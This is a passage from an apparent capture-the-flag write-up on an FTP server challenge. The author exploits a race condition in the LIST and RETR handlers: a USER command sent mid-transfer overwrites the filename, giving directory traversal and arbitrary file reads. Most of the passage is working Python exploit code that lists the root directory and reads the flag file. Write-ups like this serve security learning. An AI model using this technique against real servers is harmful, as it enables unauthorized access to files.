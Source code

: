 we can make use of this vulnerability to a arbitrary directory traversal vulnerability, the poc is shown as below:

```python
def list_dir(path):
    p = remote(ip, port)
    p.recvuntil(b"ready\r\n")
    # step 1 login
    buf = b"USER anonymous"
    sl(p, buf)
    p.recvuntil(b"required\r\n")
    buf = b"PASS *"
    sl(p, buf)
    # step 2, go into passive mode, and get the data port
    p.recvuntil(b"proceed.\r\n")
    buf = b"EPSV"
    sl(p, buf)
    p.recvuntil(b"|||")
    r_port = p.recvuntil(b"|")[:-1].decode()
    print(f"list remote port: {r_port}")
    
    # step 3, trigger the race condition vulnerability in list function
    buf = b"LIST /"
    sl(p, buf)
    time.sleep(1)
    buf = f"USER {path}".encode()  # overwirte the value of context->FilenNme during the block of list thread.
    sl(p, buf)
    p_dir = remote(ip, r_port);
    dir_data = p_dir.recvall().decode() # connect to the data port to read data
    p_dir.close()
    p.close()
    return dir_data
```

The same with `RETR` command, there is also a race condition vulnerability in the `ftpRETR` function, we can make use of it to a arbitrary file read vulnerablity.

## Exploit

If you know the race condition vulnerability, then the exploit is easy. First use the arbitrary directory traversal vulnerability to get the `/` path file list. From the list we can get the name of the flag. Second use the arbitrary file read vulnerablity read the data of the flag. Boom, pwned.

the exp is shown as below:

```python
if __name__=='__main__':
    dir_data = list_dir("/")
    flag_idx = dir_data.find("flag.")
    flag_path = "/"+dir_data[flag_idx:flag_idx+41]
    print(f"flag path: {flag_path}")
    flag_data = read_file(flag_path)
    print(f"flag: {flag_data}")
```
